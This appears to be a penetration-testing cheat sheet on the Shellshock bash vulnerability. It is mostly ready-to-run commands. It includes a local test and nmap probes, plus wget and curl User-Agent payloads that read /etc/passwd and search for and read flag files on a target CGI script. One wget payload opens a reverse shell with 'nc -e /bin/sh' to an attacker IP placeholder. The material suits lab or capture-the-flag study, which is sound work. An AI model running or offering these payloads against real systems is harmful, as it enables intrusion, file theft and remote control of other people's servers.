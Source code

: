 # Vulnerabilities

## Shellshock
##### Test for Shellshock Vulneratbility
```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"

# Create environment variable x of function () { :;};
# "echo vulnerable" is outside of the variable x funtion.
# If bash echoes "vulnerable," it is vulnerable.
# If it echoes "this is a test," it is not vulnerable.
```

##### Test for Shellshock Vulneratbility using User-Agent
```bash
User-Agent = () { :;}; ping -c 5 -p "Test String" <Attacker IP Address>
```

##### Test for Shellshock Vulneratbility using CGI
```bash
# Find *.cgi programs on target
./dirsearch.py -u http://<IP Address> -e cgi -r
# Assume returns /cgi-bin/login.cgi

nmap -sV --script http-shellshock --script-args uri=/cgi-bin/login.cgi,cmd=id <Target Host> -p 80
# In the event of 500 Internal Server Error.
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/login.cgi,cmd='echo Content-Type: text/html; echo; /usr/bin/id' <Target Host>
```

##### Attack Shellshock
```bash
# Assuming dirsearch returns /cgi-bin/login.cgi

wget -U "() { foo; }; echo \"Content-Type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://<Target Host>/cgi-bin/login.cgi && cat login.cgi
# Makes HTTP request, setting User-Agent (-U) to the string.
# It creates a local file, login.cgi, on the target, and cats the file.
```

##### Establish Reverse Shell with Shellshock
```bash
# Assuming dirsearch returns /cgi-bin/login.cgi

wget -U "() { foo; }; echo; /bin/nc <Attacker IP Address> <Listening Port> -e /bin/sh" http://<IP Address>/cgi-bin/login.cgi
# Makes HTTP request, setting User-Agent (-U) to the string.
```

##### Search for Files
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -iname *flag* 2>/dev/null'" http://<Target Host>/cgi-bin/login.cgi
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /tmp/flag'" http://<Target Host>/cgi-bin/login.cgi
```

### Shellshock References
[Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

[CVE-2014-6271](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#Initial_report_(CVE-2014-6271))

[CVE-2014-6277](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-6277)

[CVE-2014-6278](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-6278)

[CVE-2014-7169](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7169)

[CVE-2014-7186](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7186)

[CVE-2014-7187](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7187)

[nmap http-shellshock](https://nmap.org/nsedoc/scripts/http-shellshock.html)

# Bash References
[Bash (Unix shell)](https://en.wikipedia.org/wiki/Bash_(Unix_shell))